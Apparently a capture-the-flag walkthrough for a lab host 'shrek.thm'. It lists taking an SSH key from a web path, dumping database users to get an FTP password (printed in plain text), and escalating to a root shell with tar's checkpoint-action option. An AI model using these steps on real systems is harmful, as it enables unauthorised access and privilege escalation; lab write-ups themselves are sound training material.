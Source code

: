 1) goto shrek.thm/Cpxtpt2hWCee9VFa.txt
	copy the id_rsa file
2) ssh connect with shrek
	ssh -i id_rsa shrek@shrek.thm
3) to find password of ftp
	mysql -u root -p 
	use api
	select * from users
       >>ftp:EkRYje8bhFpg2uW
4) useing ftp and the above credential you will get message.txt file that have password inside it
5) ssh to donkey
	Passwd: [in the step 4]
6) privllage
	tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
7) [SSHProtect]
8) [PassProtect]
9) [SUIDProtect] - tar


#==========Ways==============#
1) ssh key
2) ftp password give
3) Suid tar file
